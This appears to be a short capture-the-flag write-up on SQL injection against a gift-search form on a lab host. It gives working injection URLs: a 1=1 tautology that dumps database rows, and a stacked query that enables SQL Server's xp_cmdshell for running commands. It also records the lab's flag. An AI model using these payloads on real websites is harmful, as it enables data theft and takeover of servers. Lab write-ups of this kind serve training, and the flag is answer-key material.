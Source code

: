 



Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?

```

```

Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

```
ODBC Driver 17 for SQL Server
```

Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

```
http://10.10.160.15/giftresults.php?age=teenager%27%20or%201=1--&interests=toys&budget=10

THM{a4ffc901c27fb89efe3c31642ece4447}
```


- Habilitar xp_cmd
```
http://10.10.160.15/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```


